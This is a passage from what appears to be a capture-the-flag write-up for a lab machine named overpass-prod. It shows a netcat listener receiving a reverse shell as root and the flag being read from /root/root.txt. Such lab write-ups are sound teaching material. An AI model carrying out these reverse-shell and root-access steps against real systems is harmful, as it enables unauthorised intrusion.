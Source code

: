 And momentarily later, the netcat listener perks up:
```
connect to [{My Machine's IP}] from (UNKNOWN) [{victim IP}] 60972
bash: cannot set terminal process group (22324): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
root
```
We have root!

## Capturing root
Now with our root user, we just have to scoop up the flag.
```
root@overpass-prod:~# cat /root/root.txt
```